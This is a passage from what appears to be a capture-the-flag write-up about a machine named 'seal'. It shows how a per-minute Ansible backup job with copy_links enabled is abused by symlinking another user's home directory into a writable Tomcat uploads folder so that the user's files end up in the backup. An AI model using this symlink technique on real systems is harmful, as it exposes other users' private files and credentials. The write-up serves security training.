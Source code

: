 
This looks to be what’s running each minute. It is an
[Ansible](https://www.ansible.com/) playbook with three tasks. Ansible
describes itself as:

> Ansible is a universal language, unraveling the mystery of how work gets
> done. Turn tough tasks into repeatable playbooks. Roll out enterprise-wide
> protocols with the push of a button.

The three tasks:

  * “Copy Files” takes all the files for the dashboard and copies them into a folder in this directory, `files`, using the [synchronize](https://docs.ansible.com/ansible/latest/collections/ansible/posix/synchronize_module.html) module. It’s important to note the `copy_links=yes` directive.
  * “Server Backups” runs the [archive](https://docs.ansible.com/ansible/2.5/modules/archive_module.html) module which generates the `.gz` file with the timestamp.
  * “Clean” removes the `files` directory using the [file](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/file_module.html) module.

### Exploit

In order to exploit this, I’ll need to look for something I can write in the
Tomcat web directory. The `uploads` folder works:

    
    
    tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ find . -writable
    ./uploads
    

The most straight forward way to abuse this is to get access to files as luis,
the user who is running this playbook. I’ll create a symlink to luis’ home
directory in the uploads folder:

    
    
    tomcat@seal:/$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
    

The next backup is larger:

    
    
    tomcat@seal:/$ ls -l /opt/backups/archives/
    total 15784
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:55 backup-2021-09-04-07:55:32.gz
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:56 backup-2021-09-04-07:56:33.gz
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:57 backup-2021-09-04-07:57:33.gz
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:58 backup-2021-09-04-07:58:33.gz
    -rw-rw-r-- 1 luis luis 13721600 Sep  4 07:59 backup-2021-09-04-07:59:32.gz
    

I’ll copy it into `/dev/shm`, and examine it:

    
    
    tomcat@seal:/dev/shm$ file backup-2021-09-04-07:59:32.gz 
    backup-2021-09-04-07:37:32.gz: gzip compressed data, was "backup-2021-09-04-07:37:32", last modified: Sat Sep  4 07:37:40 2021, max compression, original size modulo 2^32 141936640
    

Running `gunzip` on it makes a tar archive:

